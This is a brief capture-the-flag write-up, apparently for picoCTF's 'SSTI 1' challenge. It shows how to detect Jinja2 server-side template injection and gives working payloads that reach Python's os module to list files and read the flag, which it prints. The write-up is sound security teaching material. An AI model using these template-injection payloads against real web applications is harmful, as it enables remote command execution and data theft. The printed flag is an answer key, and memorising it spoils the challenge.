

##  CTF Name: SSTI 1 (Easy)

### Description:
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps

### Hint:
Server Side Template Injection

### Analysis:
The challenge hints at **Server-Side Template Injection (SSTI)**. Testing `{{7*7}}` outputs `49`, confirming that the site uses **Jinja2** and is vulnerable to SSTI.

### Solution:
1. **Confirm SSTI:**

    Submit:```{{7*7}}```

    .png)

    The output confirms template rendering.
<br>

2. **Leverage Jinja2 internals:**

    Use a payload to execute commands:
```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```

    .png)

3. **Retrieve the flag:**

    Locate and read the flag using `{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
`.
    
    

### Flag:
**picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}**
